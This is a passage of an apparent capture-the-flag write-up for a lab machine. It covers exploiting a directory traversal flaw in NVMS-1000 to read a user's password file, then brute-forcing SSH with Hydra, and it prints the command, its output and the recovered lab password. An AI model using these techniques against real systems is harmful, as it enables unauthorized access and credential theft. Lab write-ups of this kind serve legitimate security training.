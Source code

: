 We see there is a password file in `nathan`'s desktop and a publicly accessible NVMS.

## Web

Let's navigate to the web page on port 8443

![](5.png)

It's `NSClient++`, we don't have a password so we move on.

Let's check the web page on port 80.

![](1.png)

We found a login page for `NVMS-1000`, On exploit-db, we search for `NVMS-1000` and find that it is vulnerable to `Directory Traversal`

![](2.png)

## Burp

Let's fire up burp suite and test the exploit.

![](3.png)

The target is vulnerable, now let's read the password file on `nathan`'s desktop folder.

![](4.png)

We got the passwords.

# **Foothold**

## Hydra

Let's brute force ssh using the passwords we got.

```terminal
$ hydra -l nadine -P ./Passwords.txt 10.10.10.184 ssh -vv
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-29 14:59:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking ssh://10.10.10.184:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://nadine@10.10.10.184:22
[INFO] Successful, password authentication is supported by ssh://10.10.10.184:22
[STATUS] attack finished for 10.10.10.184 (waiting for children to complete tests)
[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-29 14:59:16
```
